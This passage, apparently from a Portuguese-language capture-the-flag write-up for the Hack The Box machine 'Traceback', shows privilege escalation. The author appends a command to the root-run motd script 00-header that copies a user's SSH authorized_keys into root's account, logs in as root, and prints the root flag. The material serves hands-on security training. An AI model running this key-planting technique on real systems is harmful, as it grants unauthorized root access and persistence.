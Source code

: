     Após uma pesquisa, descobrimos que os arquivos motd.d são executados como root e o arquivo "00-header" é executado quando um usuário se conecta via ssh na máquina. Então podemos adicionar um código a esse arquivo, deslogar do ssh e logar novamente. 

OBS: Esse passo tem q ser feito em menos de 30 segundos pois a máquina reseta a configuração dos arquivos a cada 30 segundos. Podemos ver isso acontecendo se usarmos o pspy.

> Código adicionado

```bash
echo "cp /home/sysadmin/.ssh/authorized_keys /root/.ssh/authorized_keys" >> 00-header && echo "echo oi" >> 00-header
```

    O código `&& echo "echo oi" >> 00-header` foi adicionado para método de confirmação de que o código foi executado antes de ser apagado.

> Conectar no ssh executa o código

```bash
┌──(kali㉿kali)-[~/…/hackthebox/machines/to-do/traceback]
└─$ ssh sysadmin@10.129.27.70 -i traceback
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 

oi


Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun Dec 25 16:35:48 2022 from 10.10.14.85
$
```

    Com o código executado, podemos pegar uma shell ssh com o usuário root.

```bash
──(kali㉿kali)-[~/…/hackthebox/machines/to-do/traceback]
└─$ ssh root@10.129.27.70 -i traceback    
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 

oi


Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu Apr 22 05:54:51 2021
root@traceback:~#
```

> Root Flag

```bash
root@traceback:~# cat root.txt
b0c198ca612ccf40b7b6e793b53eb47e
```

